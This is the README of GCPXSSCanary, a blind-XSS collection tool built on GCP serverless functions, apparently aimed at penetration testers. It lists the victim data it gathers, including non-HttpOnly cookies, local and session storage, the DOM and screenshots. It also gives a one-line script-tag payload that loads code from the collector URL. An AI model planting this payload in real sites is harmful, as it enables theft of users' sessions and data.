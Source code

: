 # GCPXSSCanary

GCPXSSCanary is a tool that can be used to collect blind-xss victim browser details, stored in GCP, and notified in a communication channel such as Slack or Google Chat. This tool was written to slightly improve on other similar tools, such as SleepyPuppy, xless, BeEF, and others by providing a terraform build process for serverless generation as well as securely storing screenshots within cloud storage, rather than a public image host. 

For additional details, refer to the [accompanying White Oak Security blog post](https://www.whiteoaksecurity.com/blog/blind-xss-gcp-functions-gcpxsscanary/).

## Collection Data Points

- URL
- User-Agent
- HTTP Referrer
- Origin
- Document Location
- Browser DOM
- Browser Time
- Cookies (Without HTTPOnly)
- LocalStorage
- SessionStorage
- IP Address
- Screenshot
- Browser Unique Fingerprint

## Deployment

First, create two secrets within GCP for your slack tokens. These should have the values of:

`<GCP Project Name>-slack-channel`

and 

`<GCP Project Name>-slack-secret`

Next, modify the main.tf file to contain your GCP project name and then initialize, plan, and deploy the terraform project. 

`terraform init`

`terraform plan`

`terraform apply`

## Usage

A successful deployment will generate a URL within GCP for collection. Several collection methods exist within the JavaScript to enable/disable features such as screenshot collection etc. Standard usage is to include the / endpoint as part of a script or eval.

`<script src='<Cloud Function URL>'/>`

Once a victim executes this payload, the collection methods will fire and be sent back to the cloud function for storage and notification. View the data within slack.
